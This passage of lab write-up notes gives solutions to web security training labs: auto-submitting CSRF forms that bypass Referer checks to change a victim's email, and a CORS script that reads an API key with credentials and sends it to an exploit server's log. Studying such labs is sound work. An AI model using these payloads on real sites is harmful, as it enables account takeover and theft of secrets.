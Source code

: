 ```html
	}
</script>
```
---

**CSRF where Referer validation depends on header being present**

    Adjust Referer header => Invalid referer header
1. delete referer header
```html
<meta name="referrer" content="no-referrer">
<form action="https://0a4f00a303d933a4829006df001f0065.web-security-academy.net
/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="hacked2222@mail" />
</form>
<script>
      document.forms[0].submit()
</script>
```
---

**CSRF with broken Referer validation**

    Adjust Referer header => Invalid referer header
1. add `Referrer-Policy: unsafe-url` in exploit sever's head
```html
<script>
history.pushState("", "", "/?https://0a5c004703feb3af80092b4f00f000cc.web-security-academy.net")
</script>
<form action="https://0a5c004703feb3af80092b4f00f000cc.web-security-academy.net
/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="pwned@mail" />
</form>
<script>
  	document.forms[0].submit()
</script>
```
---
---

# CORS

**CORS vulnerability with basic origin reflection**
    
    API key in my-account
    GET /accountDetails => Access-Control-Allow-Credentials: true
1. add Origin to request e.g. `Origin: https://example.com`
```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```
2. send the exploit and go to access log

---

[def]: #client-side-summary